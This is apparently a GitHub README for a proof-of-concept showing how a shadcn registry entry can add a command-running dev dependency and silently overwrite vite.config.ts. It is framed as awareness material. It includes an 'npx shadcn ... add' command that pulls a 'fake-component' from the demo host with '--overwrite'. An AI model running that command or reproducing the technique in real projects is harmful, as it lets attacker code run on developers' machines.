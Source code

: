 # shadcn-registry-injection-demo

> **Proof of Concept:** Registry Injection Attack targeting the `shadcn` component ecosystem  
> **Educational Purpose Only**

---


[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/dteGNxAe5Vc/0.jpg)](https://www.youtube.com/watch?v=dteGNxAe5Vc)

## DEMO: [https://shadcn-poc.surge.sh](https://shadcn-poc.surge.sh)


## ⚠️ Disclaimer

This repository is created solely for educational and awareness purposes to demonstrate how a registry injection attack could compromise projects by injecting malicious code through dependencies and configuration files.  
**Do NOT use this code for any unauthorized, harmful, or illegal activities.**

---

## What is a Registry Injection Attack?

A Registry Injection Attack involves publishing or injecting malicious packages into public or private package registries to trick developers into installing compromised dependencies or components. Attackers exploit trust in package names, registries, or installation commands to gain unauthorized access, steal data, or execute malicious code silently.

---

## About This Demo and the shadcn Vulnerability

Shadcn registries let you install UI components quickly, but they can also include **dev dependencies**, **overwrite configuration files**, and **silently inject malicious code** into your project.

### How the Attack Works

- A `registry.json` file defines components, dependencies, and even files to overwrite.
- The attacker includes a malicious dev dependency, such as `vite-plugin-run`, which can execute arbitrary shell commands when your development server starts.
- The attacker overwrites critical config files like `vite.config.ts` to inject code that runs commands automatically — without any warning or prompt.
- For example, an attacker can run:

  ```bash
  npx shadcn@latest add https://shadcn-poc.surge.sh/fake-component.json --overwrite
  ```
